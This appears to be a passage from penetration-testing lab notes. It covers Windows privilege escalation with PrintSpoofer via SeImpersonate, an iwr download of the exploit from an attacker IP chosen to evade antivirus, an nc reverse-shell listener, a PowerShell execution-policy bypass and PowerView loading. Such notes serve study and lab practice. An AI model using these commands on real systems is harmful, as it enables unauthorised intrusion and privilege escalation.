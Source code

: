 ```aspx
        CloseHandle(DupeToken);
    }
    </script>
```

---------------

### Weirdstuff

---------------

- `Certutil` gets filtered by AV while `iwr` doesn't get bypassed.

```powershell
iwr http://10.8.36.31:8002/PrintSpoofer64.exe -Outfile C:\Users\Bob\Desktop\PrintSpoofer64.exe
```

---------------

### SEIMPERSONATE privilege exploitation with printspoofer

--------------

- An account that has the SeImpersonate privilege enabled has the ability to impersonate another client after authentication. This means that this privilege allows the account to impersonate other accounts, so long as they have authenticated. Whenever a user authenticates to a host, a token (logon sessions inside the LSASS process) resides on the system until the next restart.
 
- Exploit [link](https://github.com/itm4n/PrintSpoofer)-:

![image](https://github.com/user-attachments/assets/b395626c-692b-4164-8d29-5a96b42d3795)

-----------------

### Interactive shell with rlwrap

-----------------

- Use `sudo rlwrap -cAr nc -nlvp 1337`

![image](https://github.com/user-attachments/assets/eeeb1cc2-71ed-420e-9386-9007deaf600b)

------------------

### Post Exploitation

------------------- 

- Bypass powershell execution policy with-:

```powershell
powershell -ep bypass
```
- Start powerview with

```powershell
Import-Module .\PowerView.ps1
```
